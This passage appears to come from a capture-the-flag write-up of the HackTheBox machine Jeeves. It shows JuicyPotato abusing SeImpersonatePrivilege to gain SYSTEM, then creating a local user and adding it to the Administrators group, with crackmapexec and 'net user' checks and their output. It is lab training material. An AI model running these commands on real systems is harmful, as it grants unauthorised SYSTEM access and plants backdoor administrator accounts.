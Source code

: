 ## Post-exploitation (OPTION 1)

- JuicyPotato (SeImpersonatePrivilege)

```bash
C:\Jenkins>JuicyPotato.exe -l 1337 -p cmd.exe -t * -a "/c net user test test123 /add"
```

```ruby
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

```

> First, create the new user

```bash
C:\Jenkins>JuicyPotato.exe -l 1337 -p cmd.exe -t * -a "/c net localgroup Administrators test /add"
```

```ruby
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

> We need to add new user to Administrators group and check the privileges.

```bash
❯ crackmapexec smb 10.10.10.63 -u 'test' -p 'test123'
```

```ruby
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\test:test123 
```

> We can check the privileges with crackmapexec, but the new user doesnt have admin privileges, so let's check in Windows.

```bash
C:\Jenkins>net user test
```

```ruby
User name                    test
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/6/2025 11:14:31 AM
Password expires             Never
Password changeable          6/6/2025 11:14:31 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
```